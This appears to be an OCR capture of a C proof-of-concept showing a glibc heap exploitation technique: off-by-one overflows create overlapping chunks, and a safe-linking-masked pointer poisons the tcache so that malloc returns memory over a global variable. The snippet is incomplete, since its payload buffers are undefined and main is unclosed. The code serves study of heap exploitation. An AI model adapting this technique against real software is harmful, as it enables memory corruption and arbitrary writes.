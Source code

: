 ```c

uint64_t screw_up_alignment = 0x4a4a4a4a;
uint64_t arbitrary_variable = 0x11111111;

int bypass_demo() {
    void *tcache_allocs[7];

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *chunkA = malloc(0x98);
    char *chunkB = malloc(0x98);
    char *chunkC = malloc(0x98);
    char *chunkD = malloc(0xb8);

    for( int i = 0; i < 7; i++) {
        SAFE_FREE(tcache_allocs[i]);
    }

    SAFE_FREE(chunkB);

    memcpy(chunkC, payload, 0x99);

    chunkD[0x98] = '\x21';

    memcpy(chunkA, payload2, 0x9a);

    SAFE_FREE(chunkD);

    for( int i = 0; i < 7; i++) {
        tcache_allocs[i] = malloc(0x98);
    }

    char *junk = malloc(0x98);
    char *chunkC2 = malloc(0x98);

    SAFE_FREE(chunkC2);

    uint64_t L12 = *(int64_t *)chunkC;

    uint64_t masked_ptr = L12 ^ (((uint64_t) &arbitrary_variable) & ~0xf);
    uint64_t *chunkC3 = malloc(0x98);

    SAFE_FREE(tcache_allocs[0]);

    SAFE_FREE(chunkC3);

    *(uint64_t *) chunkC = masked_ptr;
    
    char *junk2 = malloc(0x98);
    uint64_t *winner = malloc(0x98);

    *(winner+1) = 0x112233445566;

    printf("Arbitrary variable now contains 0x%lx\n", arbitrary_variable);
}

int main() {
    printf("Arbitrary variable now contains 0x%lx\n", arbitrary_variable);
    bypass_demo();
    return 0;
    
```